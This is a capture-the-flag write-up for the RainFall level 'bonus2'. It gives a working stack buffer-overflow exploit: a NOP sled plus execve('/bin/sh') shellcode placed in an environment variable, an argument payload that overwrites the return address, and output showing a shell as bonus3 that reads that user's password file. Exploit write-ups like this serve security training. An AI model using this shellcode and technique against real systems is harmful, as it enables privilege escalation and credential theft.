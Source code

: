 Again, since we work with the environment the steps are a little more numerous, we don't have one shell script so follow those 3 steps:

First we export our shellcode as an env variable

```sh
export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then we find the address of this variable with the c script env_address present in Resources

```sh
bonus2@RainFall:/tmp$ ./a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: < address_big_endian >
Lil-endian format: < address_lil_endian >
```

Finally we write our payload by replacing < address_lil_endian > with the actual address in Little endian format.

```sh
bonus2@RainFall:~$ ./bonus2 $(python -c "print('A' * 40)") $(python -c "print('A' * 23 + '< address_lil_endian >')")
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
